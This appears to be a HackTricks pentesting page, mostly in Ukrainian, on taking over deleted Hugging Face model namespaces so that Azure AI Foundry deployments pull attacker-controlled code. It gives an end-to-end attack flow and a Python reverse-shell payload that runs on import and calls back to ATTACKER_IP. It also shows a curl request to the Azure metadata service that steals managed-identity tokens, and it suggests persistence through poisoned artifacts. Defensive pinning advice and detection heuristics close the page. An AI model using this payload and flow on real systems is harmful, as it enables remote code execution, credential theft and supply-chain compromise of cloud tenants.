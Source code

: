 # Azure - AI Foundry Post-Exploitation через повторне використання простору імен моделі Hugging Face

{{#include ../../../banners/hacktricks-training.md}}

## Сценарій

- Каталог моделей Azure AI Foundry містить багато моделей Hugging Face (HF) для розгортання в один клік.
- Ідентифікатори моделей HF мають формат Author/ModelName. Якщо HF author/org видаляють, будь-хто може повторно зареєструвати цей авторський акаунт і опублікувати модель з тим самим ModelName на legacy-шляху.
- Pipelines та каталоги, які витягують лише за ім'ям (без commit pinning/цілісності), будуть посилатися на репозиторії, контрольовані атакуючим. Коли Azure розгортає модель, код завантажувача (loader) може виконатися в середовищі endpoint'а, надаючи RCE з правами цього endpoint'а.

Поширені випадки takeover HF:
- Ownership deletion: старий шлях повертає 404 до моменту захоплення.
- Ownership transfer: старий шлях повертає 307 на нового автора, поки старий автор існує. Якщо старого автора пізніше видалено і повторно зареєстровано, перенаправлення ламається, і репозиторій атакуючого обслуговується на legacy-шляху.

## Виявлення іменних просторів, придатних для повторного використання (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## End-to-end Attack Flow against Azure AI Foundry

1) У Model Catalog знайдіть HF models, у яких оригінальні автори були видалені або передані (old author removed) на HF.  
2) Повторно зареєструйте покинутого автора на HF і відтворіть ModelName.  
3) Опублікуйте зловмисний repo з loader code, який виконується при import або потребує trust_remote_code=True.  
4) Розгорніть у Azure AI Foundry спадщинний Author/ModelName. Платформа витягує репозиторій нападника; loader виконується всередині Azure endpoint container/VM, що дає RCE з правами endpoint.

Example payload fragment executed on import (for demonstration only):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Примітки
- AI Foundry deployments that integrate HF typically clone and import repo modules referenced by the model’s config (e.g., auto_map), which can trigger code execution. Some paths require trust_remote_code=True.
- Access usually matches the endpoint’s managed identity/service principal permissions. Treat it as an initial access foothold for data access and lateral movement within Azure.

## Поради після експлуатації (Azure Endpoint)

- Перелічте змінні середовища та MSI endpoints для токенів:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Перевірте змонтоване сховище, артефакти моделі та доступні Azure services за допомогою отриманого token.
- Розгляньте persistence, залишивши отруєні артефакти моделі, якщо платформа повторно витягує з HF.

## Рекомендації з захисту для користувачів Azure AI Foundry

- Закріплюйте моделі за commit під час завантаження з HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Розміщуйте перевірені HF models у довірчому внутрішньому registry та розгортайте звідти.
- Постійно скануйте codebases та defaults/docstrings/notebooks на предмет жорстко вбудованих Author/ModelName, які видалені/перенесені; оновлюйте або зафіксуйте (pin).
- Перевіряйте існування author та походження (provenance) model перед розгортанням.

## Евристики розпізнавання (HTTP)

- Видалений author: сторінка author повертає 404; legacy model path повертає 404 до моменту takeover.
- Transferred model: legacy path повертає 307 на нового author поки старий author існує; якщо старий author пізніше видаляють і повторно реєструють, legacy path може сервувати зловмисний контент.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Перехресні посилання

- Див. загальну методологію та нотатки щодо ланцюга постачання:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Посилання

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
